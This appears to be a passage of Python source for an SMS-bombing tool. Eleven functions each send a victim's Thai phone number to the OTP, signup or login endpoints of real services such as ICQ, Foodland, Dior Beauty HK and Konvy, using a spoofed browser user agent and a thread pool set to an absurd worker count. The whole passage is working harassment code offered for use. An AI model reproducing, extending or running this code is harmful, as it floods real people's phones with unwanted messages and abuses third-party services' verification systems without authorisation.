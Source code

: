     return ''.join(choice(ascii_uppercase + digits) for _ in range(N))

threading = ThreadPoolExecutor(max_workers=int(100000000))

useragent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.40"

def sk1(phone):

    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62", "User-Agent": useragent},json={"phone": f"66{phone}"})

def sk2(phone):

    post("https://u.icq.net/api/v65/rapi/auth/sendCode", headers={"User-Agent": useragent}, json={"reqId":"39816-1633012470","params":{"phone": f"+66{phone[1:]}","language":"en-US","route":"sms","devId":"ic1rtwz1s1Hj1O0r","application":"icq"}})

def sk3(phone):

    post("https://api2.1112.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})

def sk4(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", headers={"User-Agent": useragent}, data={"phone": phone,"password":"123456789Az"})

def sk5(phone):

    post("https://api.1112delivery.com/api/v1/otp/create", headers={"User-Agent": useragent}, data={'phonenumber': phone,'language': "th"})

def sk6(phone):

    post("https://gccircularlivingshop.com/sms/sendOtp", headers={"User-Agent": useragent}, json={"grant_type":"otp","username": f"+66{phone[1:]}","password":"","client":"ecommerce"})

def sk7(phone):

    post("https://shop.foodland.co.th/login/generation", headers={"User-Agent": useragent}, data={"phone": phone})

def sk8(phone):

    post("https://api-shop.diorbeauty.hk/api/th/ecrm/sms_generate_code", headers={"User-Agent": useragent}, data={"number": f"+66{phone[1:]}"})

def sk9(phone):

    post("https://api.sacasino9x.com/api/RegisterService/RequestOTP", headers={"User-Agent": useragent}, json={"Phone": phone})

def sk10(phone):

    post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", headers={"User-Agent": useragent}, data={"phone": phone})

def sk11(phone):

    post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", headers={"User-Agent": useragent}, data={"phone": phone})
